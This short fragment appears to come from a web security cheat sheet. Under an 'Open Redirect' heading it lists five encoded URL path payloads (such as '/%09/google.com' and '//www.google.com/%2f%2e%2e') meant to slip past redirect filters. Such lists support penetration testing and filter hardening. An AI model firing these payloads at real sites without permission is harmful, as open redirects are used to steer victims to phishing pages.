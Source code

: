 ## Open Redirect

```
/%09/google.com
```

```
/%5cgoogle.com
```
```
//google.com and /%2fgoogle.com
```
```
//www.google.com/%2f%2e%2e
```

```
//www.google.com/%2e%2e
```
